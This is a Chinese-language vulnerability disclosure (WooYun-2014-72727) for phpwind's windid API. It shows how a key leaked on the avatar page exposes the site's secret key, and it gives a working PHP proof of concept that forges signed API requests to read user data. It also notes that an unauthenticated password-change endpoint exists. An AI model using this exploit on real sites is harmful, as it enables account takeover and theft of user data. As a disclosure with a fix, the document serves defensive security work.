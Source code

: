 ## WooYun-2014-72727：一個PHPWIND可拿shell的高危漏洞

## **詳細說明**

在src/applications/windidserver/api/controller/AppController.php

```php
public function listAction() {

        $result = $this->_getAppDs()->getList();

        $this->output($result);

    }
```

如何獲取可以訪問接口的key？
<p>
查看用戶上傳頭像頁面就可以知道了：
<p>
/phpwind/src/windid/service/user/srv/WindidUserService.php

```php
$key = WindidUtility::appKey($appId, $time, $appKey, array('uid'=>$uid, 'type'=>'flash'), array('uid'=>'undefined'));

……
```

去頭像頁面查看一下原始文件
<pre>
http://localhost/phpwind/index.php?m=profile&c=avatar&_left=avatar
</pre>

![1](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/6/6.5/6.5-1.jpg)

<pre>
	解出urldecode得：
http://localhost/phpwind/windid/index.php?m=api&c=avatar&a=doAvatar&uid=1&windidkey=f5b35f56c88695b9069e18ecaafad874&time=1408197299&clientid=1&type=flash&avatar=http://localhost/phpwind/windid/attachment/avatar/000/00/ 00/1.jpg?r=88418
去掉

&avatar=http://localhost/phpwind/windid/attachment/avatar/000/00/00/1.jpg?r=88418
然後記得，還需要POST一個uid等於undefined
把doAvatar換成list,avatar換成app得：
http://localhost/phpwind/windid/index.php?m=api&c=app&a=list&uid=1&windidkey=f5b35f56c88695b9069e18ecaafad874&time=1408197299&clientid=1&type=flash
POST：uid=undefined
得：

{"1":{"id":"1","name":"phpwind9.0","siteurl":"http:\/\/localhost\/phpwind","siteip":"","secretkey ":"73e3dcdd733c7c3733c17273a624e162","apifile":"windid.php","charset":"gbk","issyn":"1","isnotify":"1"}}
</pre>


![2](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/6/6.5/6.5-2.jpg)

拿到這個key，我可以做的事情太多了，用戶體系內的所有事情我都可以做了。

## **漏洞證明**


![3](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/6/6.5/6.5-2.jpg)


在官網測試了一下，拿到key後測試一下讀取一個用戶的資料：


```php

<?php

$secretkey = '308c6c43a*****279dd61dd80e8d59bd';

$c = 'user';

$a = 'get';

$data = array('uid'=>'658925');

$time = time();

$key = appKey('1', time(), $secretkey, array('userid'=>658925), $data);

echo post('http://**.**.**.**/windid/index.php?m=api&c='.$c.'&a='.$a.'&windidkey='.$key.'&time='.$time .'&clientid=1&userid=658925',$data);

function post($uri,$data) 
{

    $ch = curl_init ();

    curl_setopt ( $ch, CURLOPT_URL, $uri );

    curl_setopt ( $ch, CURLOPT_POST, 1 );

    curl_setopt ( $ch, CURLOPT_HEADER, 0 );

    curl_setopt ( $ch, CURLOPT_RETURNTRANSFER, 1 );

    curl_setopt ( $ch, CURLOPT_POSTFIELDS, $data );

    $return = curl_exec ( $ch );

    curl_close ( $ch );

    return $return;

}

function appKey($apiId, $time, $secretkey, $get, $post) 
{

    $array = array('m', 'c', 'a', 'windidkey', 'clientid', 'time', '_json', 'jcallback', 'csrf_token', 'Filename', 'Upload', 'token');

    $str = '';

    ksort($get);

    ksort($post);

    foreach ($get AS $k=>$v) {

        if (in_array($k, $array)) continue;

        $str .=$k.$v;

    }

    foreach ($post AS $k=>$v) {

        if (in_array($k, $array)) continue;

        $str .=$k.$v;

    }

    return md5(md5($apiId.'||'.$secretkey).$time.$str);

}

?>
```

![3](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/6/6.5/6.5-3.jpg)

<pre>
{"uid":"658925","username":"phpwind","email":"fengyu@...","safecv":"5b4111de","re​​gdate":"1143101940","re​​gip":" "}
在User的api內還有一個edit的接口，可以修改任意用戶的密碼，呼叫它，不填寫old_password，將可以修改任意用戶的密碼，不會驗證原密碼的。	
</pre>

## **修復方案**
<pre>
不要輕信key，可以將m，a，c都加入key的運算。
</pre>